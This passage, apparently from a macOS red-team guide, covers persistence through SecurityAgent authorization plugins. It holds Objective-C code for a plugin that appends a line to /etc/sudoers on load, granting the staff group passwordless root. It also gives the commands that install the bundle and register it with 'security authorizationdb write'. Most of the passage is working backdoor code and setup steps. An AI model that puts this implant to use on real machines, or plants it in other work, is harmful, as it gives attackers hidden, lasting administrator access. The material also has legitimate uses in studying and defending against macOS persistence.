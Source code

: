 * Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root and make extra configs

#### Location

* `/Library/Security/SecurityAgentPlugins/`
  * Root required
  * It's also needed to configure the authorization database to use the plugin

#### Description & Exploitation

You can create an authorization plugin that will be executed when a user logs-in to maintain persistence. For more information about how to create one of these plugins check the previous writeups (and be careful, a poorly written one can lock you out and you will need to clean your mac from recovery mode).

```objectivec
// Compile the code and create a real bundle
// gcc -bundle -framework Foundation main.m -o CustomAuth
// mkdir -p CustomAuth.bundle/Contents/MacOS
// mv CustomAuth CustomAuth.bundle/Contents/MacOS/

#import <Foundation/Foundation.h>

__attribute__((constructor)) static void run()
{
    NSLog(@"%@", @"[+] Custom Authorization Plugin was loaded");
    system("echo \"%staff ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers");
}
```

**Move** the bundle to the location to be loaded:

```bash
cp -r CustomAuth.bundle /Library/Security/SecurityAgentPlugins/
```

Finally add the **rule** to load this Plugin:

```bash
cat > /tmp/rule.plist <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
            <key>class</key>
            <string>evaluate-mechanisms</string>
            <key>mechanisms</key>
            <array>
                <string>CustomAuth:login,privileged</string>
            </array>
        </dict>
</plist>
EOF

security authorizationdb write com.asdf.asdf < /tmp/rule.plist
```
